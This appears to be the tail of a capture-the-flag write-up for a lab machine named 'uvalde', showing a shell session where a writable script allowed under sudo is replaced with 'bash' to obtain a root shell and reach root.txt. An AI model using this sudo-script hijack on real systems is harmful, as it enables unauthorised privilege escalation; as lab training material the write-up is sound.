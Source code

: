 
```shell
matthew@uvalde:/opt$ mv superhack abc
matthew@uvalde:/opt$ ls
abc
matthew@uvalde:/opt$ echo "bash" > superhack
matthew@uvalde:/opt$ sudo /bin/bash /opt/superhack
root@uvalde:/opt#


root@uvalde:/opt# cd /root
root@uvalde:~# ls
root.txt
```

- We have both the flags!
